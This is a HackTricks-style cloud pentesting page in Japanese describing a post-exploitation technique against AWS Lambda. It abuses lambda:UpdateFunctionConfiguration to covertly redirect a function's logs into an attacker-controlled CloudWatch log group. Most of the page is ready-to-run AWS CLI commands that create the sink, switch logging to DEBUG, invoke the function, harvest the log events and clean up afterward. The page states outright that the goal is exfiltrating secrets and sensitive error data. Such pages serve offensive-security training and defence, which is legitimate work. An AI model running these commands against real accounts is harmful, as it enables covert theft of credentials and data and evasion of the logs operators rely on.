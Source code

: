 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

lambda:UpdateFunctionConfiguration を悪用して高度なログ制御により関数のログを攻撃者が選んだ CloudWatch Logs のロググループへリダイレクトします。これはコードや実行ロールを変更せずに動作します（ほとんどの Lambda ロールはすでに `logs:CreateLogGroup/CreateLogStream/PutLogEvents` を `AWSLambdaBasicExecutionRole` 経由で含んでいます）。関数がシークレットやリクエストボディを出力したり、スタックトレースでクラッシュする場合、新しいロググループからそれらを収集できます。

## 必要な権限
- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (または既存のトリガーに依存)
- `logs:CreateLogGroup` (関数のロールがそれを持っている場合、多くは不要)
- `logs:FilterLogEvents` (イベントを読むため)

## 手順
1) sink ロググループを作成
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) ターゲット関数のログをリダイレクトする
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
`LastUpdateStatus` が `Successful` になるまで待つ:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) シンクを呼び出して読み取る
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## 影響
- アプリケーション／システムのすべてのログを秘密裏に自分が管理するロググループへリダイレクトし、ログが `/aws/lambda/<fn>` のみに格納されるという想定を回避する。
- Exfiltrate 関数が出力したデータやエラーで露出した機密情報を抜き出す。

## クリーンアップ
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## 注意
- ログ制御は Lambda の `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel) の一部です。
- デフォルトでは、Lambda はログを `/aws/lambda/<function>` に送信しますが、任意の LogGroup 名を指定できます。許可があれば Lambda（または実行ロール）がそれを作成します。

{{#include ../../../../banners/hacktricks-training.md}}
